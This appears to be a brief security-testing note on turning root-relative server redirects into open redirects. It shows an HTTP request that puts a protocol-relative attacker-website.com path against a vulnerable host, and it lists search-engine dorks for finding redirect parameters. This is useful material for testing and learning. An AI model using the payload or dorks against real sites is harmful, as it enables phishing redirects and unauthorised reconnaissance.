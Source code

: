 
# Turning root-relative redirects into open redirects

In some cases, you may encounter server-level redirects that use the path to construct a root-relative URL for the Location header:

```http
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```

This can potentially still be used for an open redirect if the server lets you use a protocol-relative URL in the path:

```http
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```

# Useful dorks

```
site:*site.com inurl: redirect
site:*site.com inurl: url
site:*site.com inurl: fallback
site:*site.com inurl: target
site:*site.com inurl: http
```
